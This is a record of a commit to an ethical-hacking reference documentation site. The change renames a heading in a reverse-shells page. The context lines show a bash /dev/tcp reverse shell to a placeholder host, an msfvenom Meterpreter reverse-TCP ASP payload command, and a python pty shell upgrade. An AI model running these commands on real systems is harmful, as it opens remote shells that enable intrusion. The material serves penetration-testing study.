

Before and after one commit to curious-attempt-bunny/ethical-hacking-reference-docs, a Sphinx documentation site: the page built from source/reverse_shells.md, in a window 1280 px wide and 1038 px high. Shown: the whole window at 94% size. Built offline with Sphinx 7.4.7 and the Read the Docs theme 2.0.0, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Update reverse_shells.md

````diff
--- a/source/reverse_shells.md
+++ b/source/reverse_shells.md
@@ -20,7 +20,7 @@ bash -i >&/dev/tcp/x.x.x.x/443 0>&1
 msfvenom -p windows/meterpreter/reverse_tcp LHOST=tun0 LPORT=443 -f asp > msfshell.asp
 ```
 
-## Pretty bash TTY
+## Interactive shell upgrade
 
 ```
 python3 -c 'import pty; pty.spawn("/bin/sh")'
````
